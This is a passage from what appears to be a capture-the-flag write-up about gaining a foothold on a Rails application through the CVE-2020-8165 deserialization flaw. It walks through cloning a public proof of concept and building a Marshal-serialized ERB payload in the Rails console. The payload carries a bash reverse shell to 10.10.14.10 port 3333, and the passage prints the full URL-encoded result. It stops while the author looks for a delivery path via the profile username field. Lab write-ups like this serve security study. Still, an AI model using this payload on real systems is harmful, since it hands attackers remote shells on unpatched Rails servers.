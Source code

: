 ## Foothold / User

After a few researches, I've found that [exploit](https://github.com/masahiro331/CVE-2020-8165). 

> A deserialization of untrusted data vulnernerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE. [ref](https://nvd.nist.gov/vuln/detail/CVE-2020-8165)

So, by following the exploit, we might be able to craft a malicious payload by serializing an object and the send it to the webapp to gain access on the box. 

First, we clone the repo and prepare the project by installing all the stuff that it needs to work properly.

{% highlight sh %}
git clone https://github.com/masahiro331/CVE-2020-8165.git
cd CVE-2020-8165
bundle install --path vendor/bundle
bundle exec rails db:migrate
{% endhighlight %}

Now we can start the console and craft the payload.

{% highlight sh %}
bundle exec rails console
{% endhighlight %}

{% highlight text %}
irb(main):> code = '`/bin/bash -c "bash -i >& /dev/tcp/10.10.14.10/3333 0>&1"`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):>
irb(main):> puts "Payload"
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)
{% endhighlight %}

{% highlight text %}
...
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3F%60%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.10%2F3333+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
{% endhighlight %}

Now we have a payload and we need to test it. In the `POC` he's sending the payload using `curl` and tricks the `new` param to include it. The problem is that we don't have enough privileges to create a new user via the webapp, so, we need to find another way. 

In the `profile` section, we have the possibility to update the username. 
